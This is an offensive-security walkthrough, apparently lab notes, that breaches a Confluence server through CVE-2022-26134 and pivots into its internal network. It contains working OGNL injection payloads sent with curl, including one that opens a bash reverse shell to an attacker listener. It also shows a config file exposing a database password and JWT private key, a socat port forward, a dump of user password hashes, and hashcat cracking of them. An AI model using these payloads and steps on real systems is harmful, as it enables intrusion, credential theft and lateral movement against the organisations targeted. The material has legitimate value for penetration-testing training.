

# Simple Port Forwarding Scenario

This example will consider an attacker who has stumbled across a publicly-accessible web server that is running a version of [Confluence](https://www.atlassian.com/software/confluence) that is vulnerable to [CVE-2022-26134](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html). Ultimately breaching that machine will result in the attacker being able to pivot into the victim's internal network.

## Breaching the Edge Router

### CVE-2022-26134

CVE-2022-26134 is a pre-authentication remote code execution issue. This can be leveraged to gain a reverse shell on the web server, hopefully providing a pivot point into the network.

Rapid7 wrote a [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) which detailed the steps of leveraging this CVE against a vulnerable Confluence server (summary of the post is below). The vulnerability is an [Object-Graph Navigation Language](https://en.wikipedia.org/wiki/OGNL) (OGNL) Injection resulting in code execution in the context of the Confluence server.&#x20;

The OGNL payload is placed in the URI of an HTTP request. Any type of HTTP method appears to work, whether valid (`GET`, `POST`, `PUT`, etc) or invalid (e.g. “`BLAH`”). In its simplest form, an exploit abusing the vulnerability looks like this:


```bash
curl -v http://10.0.0.28:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/r7%22%29%7D/
```


* The example is attacking a Confluence server running at `10.0.0.28` on port `8090`. Values should be updated

Above, the exploit is URL-encoded. The exploit encompasses everything from the start of the content location to the last instance of `/`. Decoded it looks like this:

```scss
${@java.lang.Runtime@getRuntime().exec("touch /tmp/r7")}
```

The basic concept of the vulnerability is that Confluence uses the URI to create a namespace which is then executed. This means that an attacker-provided URI will be translated into a namespace, which will then find its way down to OGNL expression evaluation. Thus providing valid OGNL instructions will cause them to be executed. The above example simply creates an empty file `/tmp/r7`.

#### Reverse Shell

Instead the vulnerability could be used to launch a reverse shell routed through Java's [Nashorn engine](https://docs.oracle.com/javase/10/nashorn/introduction.htm#JSNUG136). The command (pre-encoding) to do this would be:


```scss
${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.29/1270 0>&1').start()")}
```


* This example launches a shell to a listener at `10.0.0.29` on port `1270`. These values should be updated to the particular use case

This payload uses Java's [ProcessBuilder](https://docs.oracle.com/javase/7/docs/api/java/lang/ProcessBuilder.html) class to spawn a Bash interactive reverse shell (`bash -i`).

This is then _partially_ URL encoded (see above) and launched via `curl`:


```bash
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.29/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```


* Attacking a Confluence server at `10.0.0.28` port `8090`
* Reverse shell is launched to listener at `10.0.0.29` port `1270`

#### Payload Encoding

The payload string in the proof-of-concept isn't completely URL encoded. Certain characters (notably `.`, `-` and `/`) are not encoded. Although it's not always the case, for _this_ particular exploit, it turns out to be important to the functioning of the payload. If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute. This means that after modification _the payload must be URL encoded, but not completely_.

### Leveraging the Vulnerability

The payload will need to be modified with the correct IPs and ports for both the victim Confluence server and the reverse shell listener. The listener will be launched on the attacker's machine (`192.168.45.159`) on port `4444`. The Confluence server is on port `8090` at `192.168.205.63` (also the `-v` can be removed if desired):


```bash
curl http://192.168.205.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.159/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```


&#x20;The command itself returns nothing but a waiting listener catches the shell:

```bash
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.159] from (UNKNOWN) [192.168.205.63] 38096
bash: cannot set terminal process group (2646): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
confluence@confluence01:/opt/atlassian/confluence/bin$ 
```

## Pivoting into the Network

### Enumerating the Pivot Machine

At this point the attacker has a shell on the edge of the victim network. The next step is to see what network interfaces the machine has connected. As discussed in the Linux [enumeration section](../../linux/privilege-escalation/enumeration/manual-enumeration.md#network-interfaces) this can be achieved with the `ip addr` command:

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:bf:9b:f1 brd ff:ff:ff:ff:ff:ff
    inet 192.168.205.63/24 brd 192.168.205.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:bf:90:5d brd ff:ff:ff:ff:ff:ff
    inet 10.4.205.63/24 brd 10.4.205.255 scope global ens224
       valid_lft forever preferred_lft forever
```

`CONFLUENCE01` has two network interfaces: `ens192` and `ens224`. `ens192` is running on `192.168.205.63` and `ens224` is at `10.4.205.63`.

As was also demonstrated in the Linux [manual enumeration](../../linux/privilege-escalation/enumeration/manual-enumeration.md#accessible-routes), the `ip route` command can be used to check the routes:

```bash
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.205.254 dev ens192 proto static 
10.4.205.0/24 dev ens224 proto kernel scope link src 10.4.205.63 
192.168.205.0/24 dev ens192 proto kernel scope link src 192.168.205.63
```

This shows that the target should have access to hosts in the `10.4.205.0/24` and `192.168.205.0/24` subnets via the `ens224` and `ens192` interfaces respectively.

The next step is to look for the Confluence configuration file. Research indicates that the configuration file is stored in a `.xml` format. It likely will have the work Confluence in the name. To search for an XML file with Confluence (case insensitive) in the name use the command:

```bash
find / -iname "*confluence*.xml" -type f 2>/dev/null
```

This reveals the file in question:

```
confluence@confluence01:/opt/atlassian/confluence/bin$ find / -iname "*confluence*.xml" -type f 2>/dev/null
...
/var/atlassian/application-data/confluence/shared-home/confluence.cfg.xml
/var/atlassian/application-data/confluence/confluence.cfg.xml
```

The file's contents are copied below (it was extracted via upload to HTTP server):


```xml
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
  <properties>
    <property name="access.mode">READ_WRITE</property>
    <property name="admin.ui.allow.daily.backup.custom.location">false</property>
    <property name="admin.ui.allow.manual.backup.download">false</property>
    <property name="admin.ui.allow.site.support.email">false</property>
    <property name="atlassian.license.message">AAABmQ0ODAoPeNqFkk9vozAQxe/+FEi9dA9EBtr8kywtNaRNC2RbklV2lYtLJsEqMalt0tJPvwYSR a206s2esea99xtfTCS3UthbeGQ51+Nrb4w9iwZzy8Wui16g/g1S8VIQp4/xAA89z0G0FJplOmE7I FxokIIVPS7WldKSg/q53TFe9LJyh7JSbHrmKT8A0bIC9KuSWc4UBEwDaSRsPLIdjCKegVAQvu+5r M9NBzfNo14Ym7HfCKYgDyCnAblZ3l/ZD4M/V7Z7M5nbibNYoKITuWMqJzF9o5NJ9vE33eZ9z10WO l/Et4/35WOcCD9f+/mTfxtFs7eiXr6M+neDh3ALrzVdy0AJf0VWpAtnvDIKjacuYFo9q0zyvW6Yt RXj2rQFE9l/4rVzkmr3DHK2WSjDm9hOV001k83oDSsUnCCZdNE0SMPEjpyhWcnQGyJzI58rM7llg ivWGpkeoSEqoa185d+qHefP6z20u6WzOA6f6NSPTuhOn8FFAZxjmv1sigpMQOuy4WF1QH6sxlZ4Y EXVKqLzsePyD3Bw00kwLAIUD/v++WJ60P9dkGxYvI4p+h+Ka3sCFBvxkCWPaetLPFx1y3nbjsiLk awEX02jn</property>
    <property name="attachments.dir">${confluenceHome}/attachments</property>
    <property name="confluence.setup.server.id">BXJ4-K7Y4-2BFT-N1UU</property>
    <property name="confluence.webapp.context.path"></property>
    <property name="hibernate.c3p0.acquire_increment">1</property>
    <property name="hibernate.c3p0.idle_test_period">100</property>
    <property name="hibernate.c3p0.max_size">60</property>
    <property name="hibernate.c3p0.max_statements">0</property>
    <property name="hibernate.c3p0.min_size">20</property>
    <property name="hibernate.c3p0.timeout">30</property>
    <property name="hibernate.c3p0.validate">true</property>
    <property name="hibernate.connection.driver_class">org.postgresql.Driver</property>
    <property name="hibernate.connection.isolation">2</property>
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.205.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
    <property name="hibernate.database.lower_non_ascii_supported">true</property>
    <property name="hibernate.dialect">com.atlassian.confluence.impl.hibernate.dialect.PostgreSQLDialect</property>
    <property name="hibernate.setup">true</property>
    <property name="jwt.private.key">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</property>
    <property name="jwt.public.key">MIIBojANBgkqhkiG9w0BAQEFAAOCAY8AMIIBigKCAYEAnLM8hAlwhDjo4NF08TvomjBewWkWdoTPXc4uWdxfT1RhBN+dFYoTFsfuRJv30uuBjOVnVkAIkUwFfwUjXr4LOXlyYkKThvjO7pSrwxrOfZKk0OS0vfX2bRzgXHoUtL8/gWLsNzSDxt7EtDRRU1g2jqAeYYBAxSMvpYLFuQHN4ebuNrzyTpZBJoKkIJBOIUcHDuWerYBJYXPE/VicL79NGSklUr1aPjvuVZy6Vjo3u+G0PP2Osa1Zpawt2FZ03thseOjD7d0oKvmz2clAXAAWJDB4ZEPMzNBKm3AsBb/bv89iFAgSLJ1GU+zpTxq38KNvGdGqrqh68LwLXqWe3NOD5fteOgQIlHOI+zO37TdXowZGk2hLzgaQNfzbYEefd8AXF1XbIRhO+6Ewvfgzf5J5iUxxm3+GKzUj4e7rusJfegT3L9Xu/GBHh8kQ/dEYyjOY3RVzw1GYkUr4FSOyHY5to6ReZ4BB6jAycPTM82GwpDTUXvY3xEV01jCCcSoLY5gzAgMBAAE=</property>
    <property name="lucene.index.dir">${localHome}/index</property>
    <property name="synchrony.encryption.disabled">true</property>
    <property name="synchrony.proxy.enabled">true</property>
    <property name="webwork.multipart.saveDir">${localHome}/temp</property>
  </properties>
</confluence-configuration>
```


**Lines 25 - 27** seem to contain connection information for a [PostgreSQL](https://www.postgresql.org/) database. It indicates the database exists on a machine at 10.4.205.215 on port 5432.

### Setting Up the Port Forward

At this point the attacker has enough to set up a port forward.

Through enumeration of the machine the attacker found socat installed. This is convenient, but had it not happened the attacker could bring their own copy of socat with them (provided they could find an accessible directory to save to and run it from). As described in the Socat section, it can be used as a [port forwarding tool](../../networking-tools/socat/port-forwarding.md). This example will use a command that could technically accept multiple connections though only one will be used:

```bash
socat -ddd TCP4-LISTEN:2345,fork,reuseaddr TCP4:10.4.205.215:5432
```

* `-ddd` sets the verbosity level to high
* Other arguments are explained on the [paged linked above](../../networking-tools/socat/port-forwarding.md)

Once executed the port forward has been set up:

```bash
confluence@confluence01:/opt/atlassian/confluence$ socat -ddd TCP4-LISTEN:2345,fork,reuseaddr TCP4:10.4.205.215:5432
2024/01/26 23:56:29 socat[4427] I socat by Gerhard Rieger and contributors - see www.dest-unreach.org
2024/01/26 23:56:29 socat[4427] I This product includes software developed by the OpenSSL Project for use in the OpenSSL Toolkit. (http://www.openssl.org/)
2024/01/26 23:56:29 socat[4427] I This product includes software written by Tim Hudson (tjh@cryptsoft.com)
2024/01/26 23:56:29 socat[4427] I setting option "fork" to 1
2024/01/26 23:56:29 socat[4427] I setting option "so-reuseaddr" to 1
2024/01/26 23:56:29 socat[4427] I socket(2, 1, 6) -> 5
2024/01/26 23:56:29 socat[4427] I starting accept loop
2024/01/26 23:56:29 socat[4427] N listening on AF=2 0.0.0.0:2345
```

At this point the situation looks like the diagram below:

<figure><figcaption><p>Forwarding traffic to the database</p></figcaption></figure>

`CONFLUENCE01` is listening on port on `2345` on the WAN interface, and is forwarding traffic to the LAN-side to `PGDATABASE01` (`10.4.205.214`) on port `5432`.

## Leveraging the Pivot

### Accessing the Database

The attacker can now access the database directly from their machine by sending traffic to the port forward on port `2345` of the Confluence server at `192.168.205.63`.

The attacker can use the [`psql`](https://www.postgresql.org/docs/7.0/app-psql.htm) command to launch a PostgreSQL session:

```bash
psql -h 192.168.205.63 -p 2345 -U postgres
```

* \-h specifies the IP of the host (database)
* \-p specifies the port
* \-U is the username for the connection

After connection the database will prompt for a password. Enter the password found in the Confluence configuration file (`D@t4basePassw0rd!`):

```bash
kali@kali:~$ psql -h 192.168.205.63 -p 2345 -U postgres
Password for user postgres: 
psql (16.1 (Debian 16.1-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# 
```

And now the attacker is connected. The traffic can be seen flowing through the port forward from the reverse shell session:

```bash
confluence@confluence01:/opt/atlassian/confluence$ socat -ddd TCP4-LISTEN:2345,fork,reuseaddr TCP4:TCP4:10.4.205.215:5432
...
2024/01/26 23:56:29 socat[4427] N listening on AF=2 0.0.0.0:2345
2024/01/27 00:21:14 socat[3106] I accept(5, {2, AF=2 192.168.45.159:45886}, 16) -> 6
2024/01/27 00:21:14 socat[3106] N accepting connection from AF=2 192.168.45.159:45886 on AF=2 192.168.205.63:2345
2024/01/27 00:21:14 socat[3106] I permitting connection from AF=2 192.168.45.159:45886
2024/01/27 00:21:14 socat[3106] N forked off child process 3114
2024/01/27 00:21:14 socat[3106] I close(6)
2024/01/27 00:21:14 socat[3106] I still listening
2024/01/27 00:21:14 socat[3106] N listening on AF=2 0.0.0.0:2345
2024/01/27 00:21:14 socat[3114] I just born: child process 3114
...
```

### Enumerating the Database

Now that the attacker has access to the database it is time to poke around and see what is here. The `\list` (or `\l`) command can be used to display all the available databases:

<figure><figcaption><p>Available databases</p></figcaption></figure>

It seems the current user has access to the confluence database. Change to that database with the `\c` command:

```
\c confluence
```

The `\dt` command can then be used to list the database's tables:

```
Schema |                 Name                  | Type  |  Owner   
--------+---------------------------------------+-------+----------
 public | AO_187CCC_SIDEBAR_LINK                | table | postgres
 public | AO_21D670_WHITELIST_RULES             | table | postgres
 ...
 public | cwd_user                              | table | postgres
 public | cwd_user_attribute                    | table | postgres
 public | cwd_user_credential_record            | table | postgres
```

Among the output is a potentially interesting `cwd_user` table which contains the username and password hashes for all Confluence users.

```sql
select * from cwd_user;
```

```
   id   |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
--------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
 229377 | admin          | admin           | T      | 2022-09-09 21:10:26.365 | 2022-09-09 21:10:26.365 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | d9da2333-8bd1-4a8e-82d3-0613aead5d22 |        98305 | {PKCS5S2}3vfgC35A7Gnrxlzbvp32yM8zXvdE8U8bxS9bkP+3aS3rnSJxz4bJ6wqtE8d95ejA
 229378 | trouble        | trouble         | T      | 2022-09-09 21:13:04.598 | 2022-09-09 21:13:04.598 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 84bcf8cf-618d-4bec-b5c0-1b4a21fbcd6b |        98305 | {PKCS5S2}tnbti4h38VDOh0xPrBHr7JBYjev7wws+ETHL1YyjSpIWVUz+66zXwDvbBJkJz342
 229379 | happiness      | happiness       | T      | 2022-09-09 21:13:35.831 | 2022-09-09 21:13:35.831 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | 8b9c660a-cfee-48ac-8214-737df1786dd2 |        98305 | {PKCS5S2}1hCLEv054BGYa9QkCAZKSmotKb4d8WbuDc/gGxHngs0cL3+fJ4OmCt6+fUM6HYlc
 229380 | hr_admin       | hr_admin        | T      | 2022-09-09 21:13:58.548 | 2022-09-09 21:13:58.548 | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 0d31acb5-ba51-4725-ae64-ae7f5d51becc |        98305 | {PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R
 229381 | database_admin | database_admin  | T      | 2022-09-09 21:14:22.459 | 2022-09-09 21:14:22.459 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 93d97033-f7d4-4a3c-80f4-55cc5faf03c7 |        98305 | {PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv
 229382 | rdp_admin      | rdp_admin       | T      | 2022-09-09 21:14:46.153 | 2022-09-09 21:14:46.153 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | a8f8d9b5-dfcb-480b-b461-8efce939294c |        98305 | {PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP
(6 rows)
```

The attacker now has the usernames and hashed passwords for the Confluence accounts.

### Cracking the Hash

Confluence stores the passwords with the hash type Atlassian (PBKDF2-HMAC-SHA1) which is type 12001 according to the [list](https://hashcat.net/wiki/doku.php?id=example\_hashes) of hash types for Hashcat. The hashes should be arranged in a hash file one per line:


```
{PKCS5S2}3vfgC35A7Gnrxlzbvp32yM8zXvdE8U8bxS9bkP+3aS3rnSJxz4bJ6wqtE8d95ejA
{PKCS5S2}tnbti4h38VDOh0xPrBHr7JBYjev7wws+ETHL1YyjSpIWVUz+66zXwDvbBJkJz342
{PKCS5S2}1hCLEv054BGYa9QkCAZKSmotKb4d8WbuDc/gGxHngs0cL3+fJ4OmCt6+fUM6HYlc
{PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R
{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv
{PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP
```


This can then be run through Hashcat:

```
kali@kali:~$ hashcat -m 12001 --show -o cracked.txt hashes.txt
```

This cracks three of the password hashes:


```
{PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R:Welcome1234
{PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP:P@ssw0rd!
{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv:sqlpass123
```


These are for the `hr_admin`, `rdp_admin`, and `database_admin` users respectively. At this point the attacker can use the discovered credentials to attempt to access other services or attempt to breach other resources visible to the `CONFLUENCE01` machine.
